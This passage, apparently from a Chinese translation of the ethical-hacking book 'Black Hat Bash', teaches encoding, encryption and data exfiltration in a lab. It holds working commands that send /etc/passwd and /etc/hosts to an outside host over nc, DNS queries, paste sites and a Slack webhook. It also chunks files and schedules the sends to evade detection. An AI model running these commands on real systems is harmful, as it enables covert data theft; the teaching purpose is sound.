MVpMVlRGc2RXSXpaRlJrTWpnNVEyYzlQUW89Cg==

$ **rounds=10; for i in $(seq ${rounds}); do text="$(echo "${text}" | base64 -d)"; done**
$ **echo $text**

Hello! 
```

清单 12-19：解码多重编码的字符串

我们还可以使用 xxd 命令行工具将数据转换为十六进制（清单 12-20）。

```
$ **echo -n "Secret Data" | xxd -p**

5365637265742044617461 
```

清单 12-20：将 ASCII 字符转换为十六进制

要通过 bash 解码十六进制数据，可以运行 xxd -r -p（清单 12-21）。

```
$ **echo "5365637265742044617461" | xxd -r -p**

Secret Data 
```

清单 12-21：将十六进制转换回 ASCII

我们可以通过管道将编码方案的输出结合起来。清单 12-22 将 base64 编码的输出传递给十六进制编码函数。

```
$ **echo "Secret Data" | xxd -p | base64**
NTM2NTYzNzI2NTc0MjA0NDYxNzQ2MTBhCg== 
```

清单 12-22：将十六进制字符串进行 Base64 编码

然而，如果你知道使用的算法，编码数据很容易解码。加密机制提供了更强的保护。

### 加密

*加密*是将*明文*（或原始数据）转换为*密文*（或加密数据）的过程，使用加密算法。加密的目的是将信息打乱，使其无法读取。这可以绕过检查数据恶意签名的安全控制。

*OpenSSL*，一种常用的加密工具，提供了广泛的加密功能。清单 12-23 展示了如何使用 bash 和 OpenSSL 加密敏感信息。我们通过使用加密算法 AES-256 来加密明文 *Black Hat Bash*，然后使用 base64 编码输出。

```
$ **MY_SECRET="Black Hat Bash"**
$ **echo "${MY_SECRET}" | openssl enc -aes256 -pbkdf2 -base64** 
```

清单 12-23：使用 OpenSSL 加密文本

系统应该提示你输入两次密码。在这种情况下，我们使用 *nostarch* 作为密码。OpenSSL 然后应该输出密文：

```
enter AES-256-CBC encryption password:
Verifying - enter AES-256-CBC encryption password:

U2FsdGVkX18u2T5pZ+owj/NU0Y8e6 + 2uCZQa2agr5WI= 
```

要解密密文，使用 -d 参数并提供密码（清单 12-24）。

```
$ **echo "U2FsdGVkX18u2T5pZ+owj/NU0Y8e6** **+ 2uCZQa2agr5WI=" | openssl aes-256-cbc -d -pbkdf2 -base64**
enter AES-256-CBC decryption password:
Black Hat Bash 
```

清单 12-24：解密密文

这应该输出原始消息。

练习 28：编写替代密码函数

在本练习中，你将通过使用一种简单的替代密码，*ROT13*，来打乱文本，该密码通过将消息中的每个字符向前移动 13 个字母来加密文本。例如，*a* 变成 *n*，而 *n* 变成 *a*。对于人眼来说，结果的密文将不太能理解。例如，考虑 *No Starch Press* 的字符替换（图 12-1）。


图 12-1：No Starch Press 中的旋转字符

在 bash 脚本中，sed 提供了一种简单的方法来替换字符串中的字母。请参阅清单 12-25 中的命令。

```
$ **echo "No Starch Press" | sed 'y/abcdefghijklmnopqrstuvwxyzABCDEFGHIJK**
**LMNOPQRSTUVWXYZ/nopqrstuvwxyzabcdefghijklmNOPQRSTUVWXYZABCDEFGHIJKLM/'**

Ab Fgnepu Cerff 
```

清单 12-25：使用 sed 执行 ROT13 加密

我们使用带有转换选项（y）的 sed 命令，告诉工具将源字符替换为目标字符。这要求源模式和目标模式的字符数相同。在这种情况下，我们提供了整个字母表的小写和大写字母，以及旋转后的字符。

要将字符恢复到原始形式，只需交换模式的位置，使得目标模式变为源模式（列表 12-26）。

```
$ **echo "Ab Fgnepu Cerff" | sed 'y/nopqrstuvwxyzabcdefghijklmNOPQRSTUVWXYZABC**
**DEFGHIJKLM/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/'**

No Starch Press 
```

列表 12-26：使用 sed 解密 ROT13

尝试将这个加密逻辑整合进一个更大的 bash 脚本中。这里有一些想法：

+   接受用户输入的字符串，并允许他们决定是否加密或解密该字符串。

+   允许用户选择使用哪种旋转算法。你不必将字符旋转 13 次，为什么不尝试旋转 20 次呢？

+   使用你在“加密”一节中学到的知识（见 第 298 页），将替换密码与其他加密方案结合起来。例如，从运行脚本的用户那里接受文本输入，旋转字符，然后加密它。要检索原始信息，执行反向操作。

## 外泄

一旦攻击者获得了相关信息，他们必须在保持隐蔽的情况下从网络中传输数据。我们称这个任务为 *外泄*。企业安全软件会通过各种方式寻找数据外泄的迹象，但攻击者已经提出了一些创造性的方法，让这一过程不那么显眼。在本节中，我们将介绍几种外泄策略。

### 原始 TCP

在前面的章节中，我们使用 Ncat、Netcat 和 socat 等工具通过原始 TCP 连接发送数据。通过使用本章迄今为止介绍的数据隐藏技术，我们可以在传输数据之前对其进行伪装。

例如，在通过 TCP 发送 */etc/passwd* 文件的内容之前，我们可以使用 xxd 将 ASCII 数据转换为十六进制。为了接收这些数据，我们将在 Kali 上设置一个 socat TCP 监听器。运行列表 12-27 中的命令以启动监听器。

```
$ **socat TCP-LISTEN:12345,reuseaddr,fork - | xxd -r -p**
```

列表 12-27：创建一个解码十六进制数据的 TCP 监听器

socat 将在端口 12345/TCP 上监听，并将原始数据传输到 xxd，将十六进制数据转换为可读的文本。

接下来，我们将通过使用 nc 将文件内容以十六进制形式传输。在任何一台实验室机器上运行列表 12-28 中的命令，例如 *p-jumpbox-01*（172.16.10.13）。

```
$ **xxd -p /etc/passwd | nc 172.16.10.1 12345**
```

列表 12-28：在通过 TCP 传输文件数据之前对其进行编码

在你的监听器中，你应该看到解码后的 */etc/passwd* 内容：

```
socat TCP-LISTEN:12345,reuseaddr,fork - | xxd -r -p

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
`--snip--` 
```

你可以通过设置连接的两端使用 SSL 来建立加密的外泄通道，进一步改进这个外泄方法，就像你在第七章中所做的那样。

### DNS

DNS 协议通常是一个有效的数据提取方法，因为它很少被阻止或监控。我们可以悄悄地将数据从网络传输到我们操作的外部 DNS 服务器，然后监控它以捕获所有传入的查询。

为了渗透测试的目的，我们可以设置一个简单的 DNS 服务器，如 dnserver（*[`github.com/samuelcolvin/dnserver`](https://github.com/samuelcolvin/dnserver)*），但在这个示例中，我们将使用 DNSChef（*[`github.com/iphelix/dnschef`](https://github.com/iphelix/dnschef)*），一个基于 Python 的 DNS 代理，来捕获传入的查询。DNSChef 应该可以通过 dnschef 命令在 Kali 中使用。

首先，让我们通过一些特定的标志启动 DNSChef 服务器。这些标志配置服务器为特定域提供伪造的查询解析：

```
$ **sudo dnschef \**
 **--fakedomains blackhatbash.com \**
 **--fakeip 127.0.0.1 --interface 0.0.0.0 \**
 **--logfile dnschef.log** 
```

我们传递 --fakedomains blackhatbash.com 和 --fakeip 127.0.0.1，将所有传入查询解析到 *blackhatbash.com* 域的 IP 地址 127.0.0.1（本地主机）。接着我们传递 --interface 0.0.0.0，确保 DNSChef 在所有接口上响应所有传入查询。然后，我们指定 --logfile dnschef.log，将运行时输出写入文件。

现在 DNS 服务器正在运行，它可以处理 DNS 查询。使用任何实验室机器运行 Listing 12-29 中的命令。

```
$ **for i in $(xxd -p -c 30 /etc/passwd); do dig $i.blackhatbash.com @172.16.10.1; done**
```

Listing 12-29: 通过 DNS 提取文件内容

我们在 xxd -p -c 30 /etc/passwd 的输出上运行一个 for 循环，这将把 ASCII 转换为十六进制。然后我们运行 dig 命令对整个域名进行查询，包括新生成的十六进制子域名。我们使用 @172.16.10.1 告诉 dig 使用哪个 DNS 服务器进行 DNS 解析，提供运行 DNSChef 的 Kali IP 地址。

命令执行后，你应该能在 DNSChef 中看到类似以下的输出：

```
23:51:22) [*] DNSChef started on interface: 0.0.0.0
`--snip--`
(23:51:22) [*] Cooking A replies to point to 127.0.0.1 matching: blackhatbash.com
(23:51:22) [*] DNSChef is active.
(23:52:08) [*] 172.16.10.13: cooking the response of type 'A'
for 726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173.blackhatbash.com to 127.0.0.1
(23:52:08) [*] 172.16.10.13: cooking the response of type 'A'
for 680a6461656d6f6e3a783a313a313a6461656d6f6e3a2f7573722f736269.blackhatbash.com to 127.0.0.1
(23:52:08) [*] 172.16.10.13: cooking the response of type 'A'
for 6e3a2f7573722f7362696e2f6e6f6c6f67696e0a62696e3a783a323a323a.blackhatbash.com to 127.0.0.1
`--snip--` 
```

循环针对每个 ASCII 到十六进制的转换发出了一个 DNS 查询，使用数据作为 *blackhatbash.com* 的子域。从输出中选择任何一行，并将其传递给 xxd，将其从十六进制转换：

```
$ **echo 726f6f743a783a303a303a726f6f743a2f726f6f74.blackhatbash.com | xxd -r -p**

root:x:0:0:root:/root:/bin/bash 
```

要一次性转换所有子域名，你可以使用一些 sed 和 awk 技巧（Listing 12-30）。

```
$ **sed -n 's/.*for \(.*\) to .*/\1/p' dnschef.log  | awk -F'.' '{print $1}' | xxd -r -p**
```

Listing 12-30: 解析和转换查询的子域以重建泄漏的数据

我们使用 sed -n（安静模式）和正则表达式模式来提取 DNSChef 输出中位于 "for" 和 "to" 之间的文本，这样我们就可以获得完整的域名。接着，我们使用 awk 过滤出子域名部分，并将其传递给 xxd -r -p，将其转换为 ASCII。

### 文本存储网站

文本存储网站，如流行的 *[`pastebin.com`](https://pastebin.com)*，是另一种从网络中提取数据的方式。让我们练习使用 Sprunge，这是一个开源项目，托管在 *[`github.com/rupa/sprunge`](https://github.com/rupa/sprunge)* 上。你可以克隆该仓库并将其托管在服务器上，或使用托管在 *[`sprunge.us`](https://sprunge.us)* 在线服务上的应用程序。

要发布到 Sprunge，请使用以下语法：

```
`some-command` | curl -F 'sprunge=<-' http:`//my-custom-sprunge-server.local`
```

我们通过管道将命令传递给 curl，使用表单数据（-F）发出 POST 请求。sprunge=<-语法基本上是将标准输入分配给 sprunge 字段。在这种情况下，标准输入将包括管道传递的命令。

如列表 12-31 所示，命令应该输出包含已发布内容的短 URL。

```
$ **echo "Black Hat Bash" | curl -F 'sprunge=<-' http:****`//my-custom-sprunge-server.local`**
http:`//my-custom-sprunge-server.local/7gWETD`

$ **curl http:****`//my-custom-sprunge-server.local/7gWETD`**
Black Hat Bash 
```

列表 12-31：将内容上传到 Sprunge 然后获取

dpaste 网站（*[`dpaste.com`](https://dpaste.com)*)允许用户通过其 API 上传内容。其语法与 Sprunge 几乎相同：

```
$ **echo "Black Hat Bash" | curl -F "content=<-" https://dpaste.com/api/v2/**
```

命令应该输出一个类似于*https://dpaste.com/AADSCMQ4W*的 URL。要以原始文本形式获取上传的内容，只需在 URL 后添加*.txt*，像这样：*https://dpaste.com/AADSCMQ4W.txt*。

### Slack Webhooks

*Webhook* 提供了一种方式，当特定事件发生时，一个系统可以向另一个系统发送实时数据。简而言之，它充当服务之间的通知机制。像 Slack、Discord、Telegram 和 Microsoft Teams 这样的流行应用程序提供 webhook，供其他应用程序向它们发送消息。然后，这些消息会出现在特定的频道中。

渗透测试人员可以使用 Slack webhook 接收有关有趣事件的通知，比如发现新漏洞。攻击者也利用 webhook 作为数据外泄端点，因为企业环境通常允许像 Slack 或 Microsoft Teams 这样的消息系统。

例如，要通过 Slack webhook 发送*/etc/hosts*文件的内容，您可能会写类似于列表 12-32 的内容。

```
$ **curl -X POST -H 'Content-type: application/json' -d "{\"text\":\"$(cat**
**/etc/hosts)\"}" https://hooks.slack.com/services/some/hook** 
```

列表 12-32：通过 Slack webhook 外泄文件内容

在 Slack 上，这些信息可能如下所示，见图 12-2。



图 12-2：使用 bash 发送的 Slack webhook 消息

如您所见，webhook 本质上只是 HTTP 端点，当数据发送到它们时会触发某个动作（在这种情况下，是将数据发布到一个频道）。与我们之前讨论的文本存储站点相比，它们的母域名（如*slack.com*和*discord.com*）更不容易被封锁。

## 文件分片

外泄的文件可能很大，网络安全控制有时会将传输大量数据的连接标记为可疑。为了应对这种情况，我们可以*分片*文件，将其拆分成几个较小的文件。让我们探索几种分片策略。在 Kali 上，创建一个包含 1000 行的文件：

```
$ **for line in $(seq 1 1000); do echo "line number ${line}"; done >> 1000_line_file.txt**
```

接下来，运行`wc -l 1000_line_file.txt`来检查文件是否确实包含 1000 行。

### 行数

使用 split 命令，我们可以将文件分割成多个具有固定行数的文件。例如，将*1000_line_file.txt*文件按 500 行拆分会生成两个文件，每个文件有 500 行（列表 12-33）。

```
$ **split -l 500 -d --verbose 1000_line_file.txt**

creating file 'x00'
creating file 'x01' 
```

列表 12-33：将文件拆分成 500 行的块

拆分后创建了名为 *x00* 和 *x01* 的两个文件。文件名末尾的数字会根据生成的文件数量递增。要检查每个文件的行数，可以运行 wc -l x00 x01。

### 文件大小

我们还可以通过指定大小来拆分文件。例如，我们可以通过传递 --bytes 参数来将一个 10MB 的文件拆分成十个 1MB 的文件。

*1000_line_file.txt* 文件的大小恰好是 15,893 字节。我们将其拆分为 5,000 字节的文件（清单 12-34）。

```
$ **split -d --verbose --bytes=5000 1000_line_file.txt**

creating file 'x00'
creating file 'x01'
creating file 'x02'
creating file 'x03' 
```

清单 12-34：将文件拆分成 5,000 字节的部分

接下来，检查每个新文件的大小：

```
$ **ls -l x0***

-rw-r--r-- 1 kali kali 5000 Dec  9 22:56 x00
-rw-r--r-- 1 kali kali 5000 Dec  9 22:56 x01
-rw-r--r-- 1 kali kali 5000 Dec  9 22:56 x02
-rw-r--r-- 1 kali kali  893 Dec  9 22:56 x03 
```

如你所见，我们生成了四个文件。三个文件恰好为 5,000 字节长，第四个文件包含其余的数据。

### 分块

我们可以通过 --number 参数将文件拆分为相等大小的块，而不是按大小或行数拆分。例如，清单 12-35 将文件拆分成 10 个独立的文件。

```
$ **split -d --verbose --number=10 1000_line_file.txt**
creating file 'x00'
creating file 'x01'
`--snip--`
creating file 'x08'
creating file 'x09' 
```

清单 12-35：将文件拆分成 10 个部分

你选择的分片方法最终取决于你自己，每种方法都有其优缺点。如果你将文件分成太多块，可能需要进行很多复杂的网络调用来重新组合它们。然而，将文件分成少数几个大块可能会触发检测。寻找一个在你所处情境下合理的平衡点。

练习 29：分片和调度数据外泄

在这个练习中，你将使用两种技术进行数据外泄：先对文件进行分片，然后调度每个分片在不同的时间发送，以避免引起怀疑。

在 Kali 上的端口 12345/TCP 上启动监听：

```
$ **socat TCP-LISTEN:12345,reuseaddr,fork -**
```

然后，在*p-jumpbox-01*（172.16.10.13）中运行清单 12-36 中显示的命令。

```
$ **cd /tmp**
$ ❶ **for file in $(split /etc/passwd -l 5 -d --verbose); do** ❷ **for prefix**
**in $(echo "${file}" | awk '{print $NF}' | grep -o '[0-9]*'); do** ❸ **echo**
**"cat /tmp/x${prefix} | nc 172.16.10.1 12345" | at now "+${prefix}**
**minutes"; done; done** 
```

清单 12-36：对文件进行分片并调度外泄

我们将*/etc/passwd*转换成多个五行文件，然后使用 for 循环迭代这些文件 ❶。另一个 for 循环 ❷ 从文件名中提取每个文件的编号（如 *00*、*01* 或 *02*）。在 ❸ 时，我们将命令通过管道传输到 At 任务调度器，将每个文件发送到监听器。我们调度该命令以在从后缀提取的分钟数后运行。

监听器应在几分钟内开始接收数据。所有任务执行完毕后，你将完全重建*/etc/passwd*文件。要检查已创建的 At 任务，可以使用 atq 命令。请注意，你的任务 ID 可能会有所不同：

```
$ **atq**
44    Sun Dec 10 04:12:00 a root
43    Sun Dec 10 04:11:00 a root
45    Sun Dec 10 04:13:00 a root
46    Sun Dec 10 04:14:00 a root
47    Sun Dec 10 04:15:00 a root 
```

为了改进此练习，请使用不太可预测的间隔来调度任务。然而，记住，文件的顺序很重要；当你接收它们时，它们的内容应该是有意义的。

## 总结

在本章中，你学习了安全控制，随后编写了一个脚本来检测系统中的安全软件。你还学习了伪装和隐藏进程的技巧，以及预加载恶意共享库。你篡改了登录会话的元数据，并通过使用多种协议和技术执行了数据外泄。

你现在已经达到了令人兴奋的 Bash 黑客之旅的巅峰。你已经掌握了脚本基础，执行了高级文本处理技巧，并构建了自动化工具来利用易受攻击的服务。这一强大的技能组合应该为你未来的所有道德黑客任务提供保障。

为了将你的进攻性 Bash 技能提升到新高度，我们鼓励你探索本书未涉及的黑客工具，并利用 Bash 将它们集成到你自定义的黑客工作流中。毕竟，学习新脚本技巧的最佳方式就是从一个想法出发，并挑战自己将其实现。祝你好运！
